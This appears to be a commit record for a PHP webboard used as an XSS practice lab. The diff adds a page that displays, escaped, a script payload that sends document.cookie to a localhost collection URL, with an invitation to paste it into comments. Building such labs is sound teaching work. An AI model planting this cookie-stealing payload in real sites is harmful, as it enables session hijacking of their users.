

Before and after one commit to zergreen/webboard, a PHP site: page /xss-params/kratoo.php in a window 1280 px wide. After the commit the page ends 800 px from the top, so only its background shows below. Run offline with PHP 8.4, Linux system fonts and the light colour scheme.

Commit message:
edit: a little

```diff
--- a/kratoo.php
+++ b/kratoo.php
@@ -95,9 +95,13 @@
 
                     <tr>
                         <td>
-                            <p>Lorem, ipsum dolor sit amet consectetur adipisicing elit. Saepe ullam, et voluptas officiis eius iste, dolorem quisquam repudiandae sequi mollitia molestias! Sunt quidem rerum odit, vel eum consequuntur itaque voluptate?
-                                Dolore, praesentium aspernatur. Voluptates dolorem, iure eius veniam voluptate esse eligendi minima similique at consequatur vel dignissimos corrupti impedit sit odio illo alias debitis quisquam fuga cum! Optio, autem animi.
-                                Nesciunt magni rem similique sed harum fugit! Excepturi blanditiis vitae sapiente expedita accusantium perferendis architecto molestiae, possimus laborum eos impedit accusamus, modi, laboriosam optio eius praesentium dignissimos doloribus commodi deleniti?</p>
+                            <p>
+                                <?php $xss = "<script>document.write('<img src=http://127.0.0.1/xss-params?cookie='         + escape(document.cookie) + '>'); </script>     <script>document.write('<img src=https://www.science.kmitl.ac.th/department_com/department_img/pictureProfile/01.jpg>'); </script>";
+                                    $xss = htmlspecialchars($xss);
+                                    echo "copy these script to comment if you want to make error: <br>";
+                                    echo $xss . "<br>";
+                                ?>
+                            </p>
                         </td>
                     </tr>
 
```
Also changed, not shown: 1 other file.
